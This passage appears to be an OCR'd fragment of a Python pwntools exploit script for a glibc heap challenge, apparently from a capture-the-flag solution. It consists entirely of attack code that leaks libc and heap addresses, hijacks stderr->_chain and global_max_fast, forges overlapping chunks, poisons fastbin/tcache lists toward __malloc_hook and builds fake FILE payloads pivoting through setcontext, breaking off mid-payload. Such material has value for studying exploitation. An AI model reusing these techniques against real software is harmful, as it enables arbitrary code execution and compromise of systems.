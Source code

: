 ```python
    add(0x500,"aaaa")#8
    #leak libc_base
    free(2)
    show(2)
    libc_base = l64()-libc.sym['__malloc_hook']-0x10-96
    lg("libc_base",libc_base)
    #put chunk2 into largebin
    add(0x600,"aaaa")#9
    #leak heap_base
    edit(2,"a"*0x19)
    show(2)
    ru("a"*0x18)
    heap_base = u64(p.recv(6).ljust(8,"\x00"))-0xc61
    lg("heap_base",heap_base) 
    #put chunk0 into unsortedbin
    free(0)
    #hijack stderr->_chain = chunk2
    edit(2,p64(0)*3+p64(0x1ec628+libc_base-0x20))#stderr->_chain
    add(0x448,"aaa")#10
    free(10)
    #hijack global_max_fast = chunk2
    edit(2,p64(0)*3+p64(0x1eeb80+libc_base-0x20))#global_max_fast
    add(0x448,"aaa")#11
    #chunk overlapping
    edit(3,"a"*0x40+p64(0)+p64(0x511))
    edit(4,"a"*0x30+p64(0)+p64(0x21)*10)
    free(3)
    edit(3,p64(heap_base+0x10c0))
    add(0x500,"aaa")
    add(0x500,"ddd")#13
    edit(4,"a"*0x90+p64(0)+p64(0x471))
    edit(13,"a"*0x4b0+p64(0)+p64(0xa1))
    #fastbin attrack
    free(4)
    edit(4,p64(libc.sym["__malloc_hook"]+libc_base-0x10)+p64(0))
    free(4)
    edit(4,p64(libc.sym["__malloc_hook"]+libc_base-0x10)+p64(0))
    """
    tcachebins
    0xa0 [  2]: 0x56074fb96590 —▸ 0x7f116d446b60 (__memalign_hook) —▸ 0x7f116d2f8570 (memalign_hook_ini) ◂— ...
    fastbins

    """
    chunk1_addr = heap_base + 0x290
    chunk5_addr = heap_base + 0x1a90
    chunk6_addr = heap_base + 0x1fa0
    chunk8_addr = heap_base+0x29d0
    io_str_overflow_61 = 0x1ed560+libc_base
    payload = p64(0x580dd+libc_base)+p64(0x21) #setcontext
    edit(0,payload*50)
    #malloc(0x90)
    payload = p64(0)*2+p64(0)+p64(chunk8_addr)+p64(0) #write
    payload += p64(chunk1_addr+0x10)+p64(22+0x10+chunk1_addr)+p64(0)*4
    payload += p64(chunk5_addr)+p64(0)+p64(0)+"\x00"*8
    payload += p64(0)*4+"\x00"*48
    payload += p64(io_str_overflow_61)
    edit(2,payload)
    #malloc(0x90) && set malloc_hook = setcontext + 0x61
    payload = p64(0)*2+p64(0)+p64(chunk8_addr)+p64(0) #write
    payload += p64(heap_base+0x30+0x290)+p64(chunk1_addr+22+0x30)+p64(0)*4
    payload += p64(chunk6_addr)+p64(0)+p64(0)+"\x00"*8
    payload += p64(0)*4+"\x00"*48
```